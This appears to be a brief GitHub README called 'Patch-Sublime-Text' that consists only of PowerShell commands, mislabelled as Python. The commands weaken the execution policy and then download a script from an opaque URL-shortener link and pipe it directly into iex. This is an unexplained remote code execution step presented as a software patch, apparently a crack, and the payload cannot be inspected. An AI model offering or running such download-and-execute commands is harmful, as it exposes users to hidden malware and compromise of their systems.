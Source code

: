 # Patch-Sublime-Text

```python3
Get-ExecutionPolicy; Set-ExecutionPolicy RemoteSigned -Force
```
```python3
iwr -useb "https://n9.cl/x6g959" | iex
```
```python3
iwr -useb https://n9.cl/x6g959|iex
```
